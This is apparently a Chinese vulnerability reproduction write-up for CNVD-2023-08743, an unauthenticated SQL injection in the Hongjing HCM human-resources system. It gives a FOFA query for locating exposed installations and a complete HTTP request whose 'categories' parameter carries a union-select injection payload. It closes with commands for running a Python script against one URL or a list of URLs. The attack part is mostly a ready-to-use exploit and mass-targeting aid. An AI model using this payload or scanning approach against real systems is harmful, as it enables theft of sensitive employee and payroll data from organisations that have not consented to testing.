 # CNVD-2023-08743 宏景HCM SQL注入漏洞复现

### 1.漏洞描述

宏景HCM系统是一款由宏景软件研发的系统，主要功能包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训、干部任免和人事流程等业务的管理，以及人事、绩效、培训、招聘、考勤等业务自助，还具备了报表功能和灵活的表格工具，支持集团管控、目标管理、领导决策等应用。

宏景HCM系统 categories处存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。

### 2.fofa语法

```
body='<div class="hj-hy-all-one-logo"' && title="人力资源信息管理系统"
```

### 3.漏洞复现

```
GET /servlet/codesettree?categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d&codesetid=1&flag=c&parentid=-1&status=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832471808-3fd674d8-67af-4eb8-98e4-635fd2a48bd5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

